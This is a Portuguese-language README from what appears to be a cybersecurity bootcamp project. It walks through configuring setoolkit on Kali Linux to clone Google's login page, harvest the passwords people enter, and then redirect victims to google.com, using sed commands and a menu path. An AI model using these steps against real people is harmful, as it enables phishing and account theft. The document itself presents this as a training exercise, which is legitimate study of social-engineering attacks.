

# Phishing para captura de senhas do Google
- Desafio de Projeto Santander Bootcamp Cibersegurança

### Ferramentas utilizadas

- Kali Linux
- setoolkit (version: 8.0.3)

### Configurando o Phishing no Terminal do Kali Linux

- Acesso root: ``` sudo su ```
- Permitir redirecionar site após coleta:
```bash
sed -i 's/HARVESTER_REDIRECT=OFF/HARVESTER_REDIRECT=ON/g' /etc/setoolkit/set.config
```
- Alterar site a ser redirecionado após coleta:
```bash
sed -i 's#HARVESTER_URL=http://thisisasite#HARVESTER_URL=http://google.com#g' /etc/setoolkit/set.config
```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Forma de ataque: ``` Web Templates ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- Selecionar template: ``` Google ```

### Resutados

- Página Phishing Google
  


- Credenciais Coletadoas



> [!NOTE]
> - **Este repositório é exclusivamente para fins educacionais.**
> - **O uso deste conteúdo para atividades ilegais é proibido.**
> - **O autor não se responsabiliza por qualquer uso indevido das informações disponibilizadas.**
